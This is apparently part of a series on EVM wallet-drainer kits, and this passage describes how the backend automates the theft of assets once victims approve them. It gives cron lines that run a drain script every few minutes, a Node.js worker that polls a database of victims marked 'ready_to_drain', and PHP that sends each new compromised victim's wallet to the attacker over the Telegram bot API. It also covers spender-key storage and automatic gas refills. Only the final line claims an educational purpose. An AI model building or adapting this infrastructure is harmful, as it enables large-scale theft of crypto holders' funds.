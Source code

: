 ## Automation: Webhooks and Cron Jobs in EVM Wallet Drainer Backends

This document explains how EVM wallet drainer backends might utilize automation, specifically through mechanisms like cron jobs and webhook-like interactions, to manage and execute the draining of approved assets. Effective automation is crucial for attackers to operate efficiently, process approvals in a timely manner, and manage their illicit operations at scale.

### Purpose of Automation in Drainer Backends

Automating the draining process offers several advantages to attackers:

1.  **Timeliness**: Assets can be transferred shortly after approval, reducing the window for victims to revoke permissions or move their funds.
2.  **Efficiency**: Manual execution of `transferFrom` for every approved asset across numerous victims is impractical.
3.  **Scalability**: Automation allows the backend to handle a large volume of victims and approvals simultaneously.
4.  **24/7 Operation**: Automated scripts can run continuously or at frequent intervals, ensuring draining occurs regardless of the attacker's direct involvement.
5.  **Reduced Operational Errors**: Well-written scripts can reduce human error in executing transactions.
6.  **Gas Management**: Automated systems can potentially monitor gas prices and schedule transactions during periods of lower fees, though speed is often prioritized.

### 1. Cron Jobs for Periodic Draining

Cron jobs are a time-based job scheduler in Unix-like computer operating systems. Users can schedule scripts or commands to run periodically at fixed times, dates, or intervals. This is a very common method for automating backend tasks in drainer operations.

*   **Mechanism**: A script (e.g., the `drain_processor.js` or `drain_processor.py` conceptualized previously) is created to perform the draining logic. This script typically:
    1.  Connects to the database (e.g., MongoDB, MySQL).
    2.  Queries for victim records with approvals that are in a "ready_to_drain" or similar pending status.
    3.  For each pending approval, it initiates the appropriate blockchain transaction (e.g., `transferFrom` for ERC20 tokens, `safeTransferFrom` for NFTs) using a pre-configured attacker wallet (the "spender" wallet that holds the approval and must also have gas).
    4.  Logs the outcome of each transaction (success, failure, transaction hash) back to the database, updating the approval status.
*   **Scheduling**: The attacker schedules this script to run at regular intervals using `crontab`.
    *   **Example Cron Syntax** (to run a Node.js script every 5 minutes):
        ```cron
        */5 * * * * /usr/bin/node /path/to/drainer_backend/drain_processor.js >> /path/to/drainer_backend/logs/cron.log 2>&1
        ```
    *   **Example Cron Syntax** (to run a Python script every 5 minutes):
        ```cron
        */5 * * * * /usr/bin/python3 /path/to/drainer_backend/drain_processor.py >> /path/to/drainer_backend/logs/cron.log 2>&1
        ```
*   **Frequency**: The interval can be adjusted based on the desired responsiveness. Shorter intervals (e.g., every minute or every few minutes) allow for quicker draining but increase server load and log noise.

### 2. Webhook-Like Logic for Event-Driven Actions

While traditional external webhooks (e.g., from third-party services) might not be central to the core draining execution, the concept of event-driven actions via internal API calls is fundamental.

*   **Frontend to Backend Notification**: When the frontend drainer script successfully tricks a victim into signing an approval, it makes an API call (acting like an internal webhook) to a backend endpoint (e.g., `/api/approval` as shown in previous examples).
*   **Backend Response and Queuing**: This backend endpoint logs the approval and marks it as "ready_to_drain" in the database. This effectively adds the task to a queue.
*   **Triggering Subsequent Actions**: While this API call itself might not directly trigger the drain (to avoid long-running HTTP requests or to manage resources better), it sets the stage for the cron job or a worker process to pick up the task.
*   **Notifications to Attacker**: The backend could use actual webhooks to send notifications to the attacker (e.g., via Telegram, Discord) when significant events occur:
    *   A new high-value victim is compromised.
    *   A large amount of assets is successfully drained.
    *   The operational wallet for paying gas is running low.
    *   Critical errors occur in the draining script.
    *   **Example (Conceptual Telegram Notification in PHP)**:
        ```php
        // Inside the /api/approval endpoint after successfully logging an approval
        $victimWallet = $data["walletAddress"];
        $tokenInfo = $data["tokenContract"];
        $message = "New approval logged for victim: " . $victimWallet . " for token: " . $tokenInfo;
        $telegramApiToken = "YOUR_TELEGRAM_BOT_TOKEN";
        $telegramChatId = "YOUR_TELEGRAM_CHAT_ID";
        $url = "https://api.telegram.org/bot" . $telegramApiToken . "/sendMessage?chat_id=" . $telegramChatId . "&text=" . urlencode($message);
        file_get_contents($url); // Send notification
        ```

### 3. Worker Processes / Daemons

An alternative or complement to cron jobs is to have a continuously running backend script (a daemon or worker process) that polls the database for pending tasks.

*   **Mechanism**: A script (e.g., written in Node.js or Python) runs in an infinite loop with a short delay (e.g., every few seconds or tens of seconds).
    *   In each iteration, it queries the database for new approvals marked as "ready_to_drain".
    *   If tasks are found, it processes them similarly to how a cron-triggered script would.
*   **Advantages**: Can offer lower latency than cron jobs if very frequent polling is used. Can manage state more effectively between runs.
*   **Disadvantages**: More complex to manage (requires process supervision to ensure it stays running, e.g., using tools like `pm2` for Node.js or `systemd` for Linux services). A poorly written loop can consume excessive resources.
*   **Example (Conceptual Node.js Worker using `setInterval`)**:
    ```javascript
    // worker.js
    const { processSingleApproval } = require("./drain_logic_module"); // Assume drain logic is modularized
    const Victim = require("./models/Victim"); // Mongoose model

    const POLLING_INTERVAL_MS = 10000; // 10 seconds

    async function checkForPendingApprovals() {
      try {
        const victimsWithPendingApprovals = await Victim.find({ "approvals.status": "ready_to_drain" });
        for (const victim of victimsWithPendingApprovals) {
          for (const approval of victim.approvals) {
            if (approval.status === "ready_to_drain") {
              console.log(`Worker: Processing approval for ${victim.walletAddress}, token ${approval.tokenContract}`);
              await processSingleApproval(victim, approval); // This function would contain the drain logic
              await victim.save(); // Save changes to victim/approval status
            }
          }
        }
      } catch (error) {
        console.error("Worker: Error checking for pending approvals:", error);
      }
    }

    console.log("Drainer worker started. Polling every", POLLING_INTERVAL_MS / 1000, "seconds.");
    setInterval(checkForPendingApprovals, POLLING_INTERVAL_MS);
    ```

### 4. Management of Attacker Wallets and Gas Fees

Automated draining scripts require access to private keys for the wallets that will execute the `transferFrom` (or similar) transactions. These wallets (spenders) must also be funded with native currency (ETH, BNB, etc.) to cover gas costs.

*   **Secure Key Management (from Attacker's perspective)**: Private keys are stored securely on the backend server, accessible only to the draining scripts. Environment variables or encrypted configuration files are common methods.
*   **Gas Monitoring and Refilling**: Sophisticated drainer operations might include automated scripts that:
    *   Monitor the native currency balance of their operational spender wallets.
    *   If a balance falls below a certain threshold, trigger an automated transfer from a central, well-funded attacker wallet to replenish the gas.
    *   This ensures that draining operations don't fail due to insufficient gas.

### Conclusion

Automation through cron jobs, event-driven API calls (acting as internal webhooks), and persistent worker processes is essential for the operational success of EVM wallet drainer kits. These mechanisms allow attackers to process approvals and transfer assets efficiently and at scale, often with minimal direct manual intervention once the system is set up. Understanding these automation patterns helps in comprehending the lifecycle of a drainer attack and the infrastructure supporting it.

